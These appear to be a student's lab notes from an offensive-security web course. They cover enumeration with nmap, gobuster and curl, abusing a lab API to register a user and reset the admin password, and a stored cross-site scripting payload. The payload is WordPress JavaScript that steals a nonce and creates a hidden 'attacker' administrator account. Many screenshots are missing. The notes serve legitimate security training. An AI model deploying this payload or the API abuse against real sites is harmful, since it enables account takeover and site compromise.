 ## Assessment Tools

### [[Nmap]]


sudo nmap -p80 --script=http-enum 192.168.50.20

### #Gobuster
```
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5
```

```
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5 --exlude-length=0
```

### [[Burpsuite]] 

```
```
## Application Enumeration
	Debugger shows:
		JS under sources, click 'Prettify' which is double curly braces

#### Inspection HTTP Response Headers and Sitemaps via network tool and [[Burpsuite]]
	#### Network Tool
		Firefox Web Developer menu, 
			Refresh to show pages traffic

![[Pasted image 20230815154629.png]]
shows Response header indicating server type and version

##### show restricted search returns via [[curl]]
```
curl https://offsec.com/robots.txt
```

#### Enumerating and Abusing APIs

Enumerate API via go buster:

![[Pasted image 20230815155216.png]]

```
gobuster dir -u http://192.168.189.16 -w /usr/share/wordlists/dirb/big.txt -p pattern
```


-p pattern is a text file that looks like:

![[Pasted image 20230815155250.png]]

{GOBUSTER} acts as a placeholder here
The results seem to return two different locations that seem to be API end points (those ending in v1)

![[Pasted image 20230815155440.png]]

Now we can curl that, and see what appears to be the presence of an 'admin' account

We can use this info to attack again with [[Gobuster]] and insert the admin username at the end:

![[Pasted image 20230815155646.png]]

password obsiously seems nice, so lets [[curl]]:

![[Pasted image 20230815155723.png]]

Method is there, but since [[curl]] uses get method we should try [[post]] or [[put]]

Making sure API exists:

![[Pasted image 20230815155815.png]]

Now pass username and dummy password as [[json]] data via [[-d]] and use -H for json type

![[Pasted image 20230815155926.png]]

Try registering new user using [[json]] header, but specify username and password, returns:

![[Pasted image 20230815160010.png]]

This works:
		![[Pasted image 20230815160506.png]]

login API we discovered earlier, lets see if it works:

![[Pasted image 20230815160638.png]]

incorrect method when trying to change password. so lets try [[put]] method, also note that we pass the auth token from the last step to authenticate:

![[Pasted image 20230815160811.png]]

No error means it should work!


You can also do this in [[Burpsuite]] 

![[Pasted image 20230815161024.png]]

+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++




## [[Cross-site]] Scripting

### [[Cross-site]] Scripting to create a new account Priv Esc


![[Pasted image 20230815163002.png]]

Creates new admin user:

![[Pasted image 20230815163211.png]]

To minify this code: navigate to [[jscompress]].com

![[Pasted image 20230815163255.png]]


We also need an encode javascript function

```
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

This function performs a new HTTP request towards the **/wp-admin/user-new.php** URL and saves the nonce value found in the HTTP response based on the regular expression. The regex pattern matches any alphanumeric value contained between the string _/ser" value="_ and double quotes.

Now that we've dynamically retrieved the nonce, we can craft the main function responsible for creating the new admin user.


```
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```



![[Pasted image 20230815163353.png]]
This is the console where you can add the encode function. Note the block that says 'insert minified javascript

Copy encoded string and insert with [[curl]] -i but before you send switch to [[Burpsuite]] and turn [[intercept]] on

![[Pasted image 20230815163521.png]]

Press forward in burp. and disable intercept. It should now be stored in the WordPress database. We should just log in and click on the visitor dashboard




## Exercises To-Do

- [ ] 1.1.1 (page 10)
- [ ] 1.1.2 (page 12)